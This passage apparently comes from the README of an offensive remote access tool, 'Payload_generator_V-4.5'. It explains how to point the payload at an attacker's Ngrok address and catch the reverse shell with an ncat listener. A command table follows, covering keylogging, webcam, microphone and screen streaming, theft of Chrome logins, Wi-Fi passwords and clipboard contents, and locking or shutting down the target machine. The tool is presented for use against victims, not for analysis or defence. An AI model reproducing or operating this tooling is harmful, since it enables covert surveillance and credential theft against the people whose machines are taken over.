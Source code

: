 #### **Configure and Run the Payload:**

1. Open and run the payload script:
   ```bash
   python Payload_generator_V-4.5.py
   ```
2. Enter the following information when prompted:
   - **Attacker IP**: The IP address from the Ngrok connection (`0.tcp.ngrok.io`).
   - **Attacker Port**: The port number provided by Ngrok (`xxxxx`).

3. The payload will attempt to establish a connection back to the attacker's machine.

#### **Using Ncat:**

Use Ncat (or Netcat) to listen for incoming connections on the port being forwarded by Ngrok:
```bash
ncat -lvnp 8080
```

---

### **Payload Commands in V4.5**

| **Command**            | **Description**                                                                 |
|------------------------|---------------------------------------------------------------------------------|
| `webcam`               | Streams live video from the target’s webcam.                                     |
| `stop_webcam`          | Stops the webcam stream.                                                         |
| `screenshare`          | Streams the target’s screen in real-time.                                        |
| `stop_screenshare`     | Stops screen sharing.                                                            |
| `upload <filepath>`    | Not done!                                                                        |
| `download <filepath>`  | Not done!                                                                        |
| `lockscreen`           | Locks the target’s screen.                                                       |
| `shutdown`             | Shuts down the target machine.                                                   |
| `reboot`               | Reboots the target machine.                                                      |
| `keylogs`              | Displays keystrokes recorded by the keylogger.                                   |
| `start_keylogger`      | Starts recording keystrokes from the target’s machine.                           |
| `stop_keylogger`       | Stops the keylogger.                                                             |
| `extract_google_logins`| Extracts stored credentials from Google Chrome.                                  |
| `get_wifi_passwords`   | Retrieves saved Wi-Fi passwords from the target machine.                         |
| `popups`               | Creates random pop-up windows on the target machine.                             |
| `audio_real_time`      | Streams live audio from the target’s microphone.                                 |
| `stop_audio`           | Stops the live audio stream.                                                     |
| `get_clipboard_content`| Retrieves the content from the target’s clipboard.                               |

---